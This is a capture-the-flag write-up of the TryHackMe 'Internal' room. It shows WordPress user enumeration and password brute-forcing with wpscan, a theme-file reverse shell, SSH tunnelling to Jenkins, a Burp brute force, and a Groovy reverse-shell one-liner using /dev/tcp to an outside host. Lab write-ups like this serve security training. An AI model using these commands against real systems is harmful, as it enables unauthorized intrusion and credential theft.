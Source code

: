 ```yaml
---
title: THM | Internal | 22-07-2023
updated: 2023-07-23 18:07:05Z
created: 2023-07-22 14:41:03Z
categories: [Wordpress, Jenkins]
tags: [ssh Tunneling, wpscan, brute-force]  
---
```


# THM | Internal 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

  - User.txt
  - Root.txt

  Tryhackme Room: [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)
 
# Scanning 
## Nmap Scan:
```bash
└─$ nmap -sC -sV -oN nmap.txt 10.10.223.143                       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 10:40 EDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.07% done; ETC: 10:40 (0:00:17 remaining)
Nmap scan report for 10.10.223.143
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.18 seconds
```

### Open Ports:
- 22/tcp ssh
- 80/tcp http

## Port 80 (HTTP)
 We have added the ip to internal.thm in our `/etc/hosts` file. 
And It opens a default apache2 page.

![0e0c0ecb72d1cfa002b6d8d640cb6bc3.png](/Tryhackme/Internal/_resources/0e0c0ecb72d1cfa002b6d8d640cb6bc3.png)

  We will now start the gobuster for finding hidden directories. 
  
![765a3ce1526da8af125720b7f354b796.png](/Tryhackme/Internal/_resources/765a3ce1526da8af125720b7f354b796.png)

 We found `/blog` directory first, so we will open it. 
 
 ![b7b49634886987bd1324814610c79b14.png](/Tryhackme/Internal/_resources/b7b49634886987bd1324814610c79b14.png)
 
 Then, we checked in the source page and found its a wordpress site running version `5.4.2`
 
 ![482875c86db1560e16419fbab2a39205.png](/Tryhackme/Internal/_resources/482875c86db1560e16419fbab2a39205.png)
 
 Now we will check `/wp-admin` page, which is the login page for the wp sites.
 
 ![a9296e2550a71973ede6d1e29a9ca7e7.png](/Tryhackme/Internal/_resources/a9296e2550a71973ede6d1e29a9ca7e7.png)
 
 Next we tried to login with some default credential and found admin username exist.
 We can confirm that by checking the error message returned.
 
 Error message if we have valid username.
 ![c547f3148ad3b8f8135efc178067d3d4.png](/Tryhackme/Internal/_resources/c547f3148ad3b8f8135efc178067d3d4.png)
 
 Error message if user does not exit.
 
 ![2bd2775ac66656409d1a5f457cffa84d.png](/Tryhackme/Internal/_resources/2bd2775ac66656409d1a5f457cffa84d.png)
 
We can also find the username by running the following wpscan command:
```
wpscan --url internal.thm/blog/ -e u
```
 ![79cf1321620a105f12b8eb9047e30681.png](/Tryhackme/Internal/_resources/79cf1321620a105f12b8eb9047e30681.png)
 
 We checked for any vulnerable plugins by this following command, but we didn't found.
```
wpscan --url internal.thm/blog/ -e vp
```

Run wpscan for password cracking with the following command:
```
wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin 
```

We have successfully cracked the password:

![bceb4a94df2bbd1a65aa1eea65e95d8e.png](/Tryhackme/Internal/_resources/bceb4a94df2bbd1a65aa1eea65e95d8e.png)

# Initial Access

Now, we have logged in to the wordpress dashboard with the password found above:

![c9dacac26baea8197c99475769ed045d.png](/Tryhackme/Internal/_resources/c9dacac26baea8197c99475769ed045d.png)

Now we will edit the php file of the theme to get reverse shell. In this case, we have edited footer.php

![64a66ddb9e97e23150c0eca9b5a8d3a4.png](/Tryhackme/Internal/_resources/64a66ddb9e97e23150c0eca9b5a8d3a4.png)

We have got the reverse shell.

![7fc213435bd70d2b2242a20838891a3b.png](/Tryhackme/Internal/_resources/7fc213435bd70d2b2242a20838891a3b.png)

We have found the sql database username and password under `/var/www/html`

![6affbc1c49ac74ce613c4ad8790a0487.png](/Tryhackme/Internal/_resources/6affbc1c49ac74ce613c4ad8790a0487.png)

Then, We have found password for the user `aubreanna` in the `/opt folder`

![252872bc580367992c8fd0f4148b3448.png](/Tryhackme/Internal/_resources/252872bc580367992c8fd0f4148b3448.png)

# User Privilege Escalation

We have successfully ssh to the user `aubreanna` with the found password and read the user flag.

![eaafd37d844aa0ffc1467f37ab3c9217.png](/Tryhackme/Internal/_resources/eaafd37d844aa0ffc1467f37ab3c9217.png)

We also found jenkins.txt and it says jenkins server running on `172.17.0.2:8080`

![d0a3e701f6d7a832823f3bafb3326078.png](/Tryhackme/Internal/_resources/d0a3e701f6d7a832823f3bafb3326078.png)

So, we will use ssh tunneling to access this server from local machine using the following command.
```
ssh -L 4444:172.17.0.2:8080 aubreanna@internal.thm
```
We accessed the jenkins login page:

![2b3b657d0b2990844c5e7fc4ef2f281b.png](/Tryhackme/Internal/_resources/2b3b657d0b2990844c5e7fc4ef2f281b.png)

As jenkins default credentials are not working we need to brute force the password.

We have intercepted the login request with burp suite and run the brute force attack and cracked the password for username `admin`

![97251bbe2087edb5d1e7948f0be25ee8.png](/Tryhackme/Internal/_resources/97251bbe2087edb5d1e7948f0be25ee8.png)

# Root Privilege Escalation
Then, we have logged in successfully.
![1c9de55afe9192b7ac856d0317dd3df2.png](/Tryhackme/Internal/_resources/1c9de55afe9192b7ac856d0317dd3df2.png)

Now we will look for uploading reverse shell in jenkins script console. 
Then, we have run the java reverse shell and got the jenkins shell.
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![43eba5b456932a684bc29d5091bf0ead.png](/Tryhackme/Internal/_resources/43eba5b456932a684bc29d5091bf0ead.png)

![e7f9ef6ab4f77d91c5c9c9f0f09be799.png](/Tryhackme/Internal/_resources/e7f9ef6ab4f77d91c5c9c9f0f09be799.png)

In the `/opt` folder we found `note.txt`with root password.

![2e63c4462310ad8c4545286147dd2eee.png](/Tryhackme/Internal/_resources/2e63c4462310ad8c4545286147dd2eee.png)

So, we have `ssh` to the root user of `internal.thm` and got the root flag.

![d925e2718b75e3fd60b43db16ad785d6.png](/Tryhackme/Internal/_resources/d925e2718b75e3fd60b43db16ad785d6.png)

So, we have successfully rooted this machine. 

